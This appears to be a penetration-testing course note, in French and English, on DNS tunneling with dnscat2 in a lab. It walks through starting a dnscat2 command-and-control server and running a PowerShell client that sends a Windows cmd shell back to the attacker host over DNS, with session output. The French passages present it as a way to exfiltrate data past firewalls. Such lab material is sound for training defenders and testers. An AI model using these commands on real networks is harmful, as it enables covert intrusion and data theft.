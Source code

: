 # DNS Tunneling with Dnscat2

***

Dnscat2 est un outil de tunneling qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal chiffré de Command-&-Control (**C\&C** ou **C2**) et envoie des données à l’intérieur des enregistrements TXT du protocole DNS.

D’habitude, chaque environnement de domaine Active Directory dans un réseau d’entreprise aura son propre serveur DNS, qui résoudra les noms d’hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec **dnscat2**, la résolution d’adresse est demandée à un **serveur externe**. Lorsqu’un serveur DNS local tente de résoudre une adresse, les **données sont exfiltrées et envoyées sur le réseau** au lieu d’une requête DNS légitime.

**Dnscat2** peut être une approche extrêmement furtive pour exfiltrer des données tout en **échappant aux détections des pare-feu** qui analysent les connexions HTTPS et inspectent le trafic.

Pour notre exemple de test, nous pouvons utiliser un **serveur dnscat2** sur notre hôte d’attaque et exécuter le **client dnscat2** sur une autre machine Windows.

{% hint style="info" %}
**💡 Idée principale :**\
Dnscat2 est un outil qui permet de **faire passer des données à travers le protocole DNS**. Il est souvent utilisé pour exfiltrer des données ou créer une connexion cachée entre un attaquant et une machine cible.

***

#### **🌍 Imagine un exemple simple :**

Tu es dans une entreprise avec un **pare-feu** qui bloque tous les ports sauf le port **53 (DNS)**, utilisé pour les requêtes DNS (quand ton PC cherche un site web comme "google.com").

Le problème ? **Les pare-feu ne vérifient pas toujours les données cachées dans ces requêtes** ! C'est là que **Dnscat2** entre en jeu.

***

#### **🛠 Exemple d'utilisation de Dnscat2 :**

🎭 **But :**\
Un attaquant veut **communiquer secrètement** avec un ordinateur dans l’entreprise, sans être détecté.

📡 **Comment ?**

* Il installe un **serveur dnscat2** sur sa machine (externe).
* Il envoie un **client dnscat2** sur l’ordinateur de la cible.
* La cible exécute dnscat2, qui va cacher les données **dans des requêtes DNS** et les envoyer au serveur de l’attaquant.
* L’attaquant peut alors **contrôler** la machine cible ou voler des fichiers **sans être bloqué par le pare-feu**.
{% endhint %}

***

### <mark style="color:red;">Setting Up & Using dnscat2</mark>

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

<mark style="color:green;">**Cloning dnscat2 and Setting Up the Server**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

We can then start the dnscat2 server by executing the dnscat2 file.

<mark style="color:green;">**Starting the dnscat2 server**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```
{% endcode %}

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

<mark style="color:green;">**Cloning dnscat2-powershell to the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
{% endcode %}

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

<mark style="color:green;">**Importing dnscat2.ps1**</mark>

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
{% endcode %}

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

<mark style="color:green;">**Confirming Session Establishment**</mark>

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

We can list the options we have with dnscat2 by entering `?` at the prompt.

<mark style="color:green;">**Listing dnscat2 Options**</mark>

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

<mark style="color:green;">**Interacting with the Established Session**</mark>

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```
